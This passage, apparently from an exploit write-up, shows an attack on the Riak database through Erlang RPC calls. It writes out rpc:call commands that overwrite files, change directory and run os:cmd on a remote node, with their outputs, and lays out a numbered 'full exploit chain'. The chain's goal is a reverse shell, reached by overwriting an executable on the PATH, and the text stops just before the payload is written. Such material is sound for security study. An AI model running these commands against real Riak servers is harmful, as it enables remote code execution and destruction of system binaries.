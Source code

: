 **(Over)write files in current directory**

```
> "rpc:call('riak@ubuntu.test', file, write_file, ["test123", []])."
```

**Change the current working directory (up only)**

```
> "rpc:call('riak@ubuntu.test', file, set_cwd, ["etc"])."
```

```
> "rpc:call('riak@ubuntu.test', os, cmd, ["ls"])."
"advanced.config\ndata\nlog\nriak.conf\n"
```

Also `file:delete_d_r`, `file:make_symlink`, `heart:set_cmd` and `os:putenv` but most either have character restrictions or failed otherwise during testing.

So we can only run one command with no args, no paths and the executable must be in `$PATH`. How can we get a (reverse) shell with a single command? We're definitely going to need some help from the Riak environment itself.

## Full exploit chain

1. Find a useful path that we can pivot up into

```
> rpc:call('riak@ubuntu.test', os, cmd, ["env"]).
"...\nPATH=/opt/riak/rel/riak/erts-10.6.4/bin:/opt/riak/rel/riak/bin:/opt/riak/.local/bin:/usr/local/sbin:
/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

**/opt/riak/rel/riak/bin**

- Check our current path

```
> rpc:call('riak@ubuntu.test', os, cmd, ["pwd"]).
"/opt/riak/rel/riak\n"
```

2. Change into the bin folder which is in our `$PATH`

```
> rpc:call('riak@ubuntu.test', file, set_cwd, ["bin"]).
```

3. Find an executable in bin that "we won’t miss"

```
> rpc:call('riak@ubuntu.test', os, cmd, ["ls"]).
"cf_config\ncuttlefish\ndata\nhooks\ninstall_upgrade.escript\nlog\nnodetool...
```

![cf_config](https://i.ibb.co/yf98t6p/cfconfig.jpg)

4. Craft our payload and overwrite the executable file
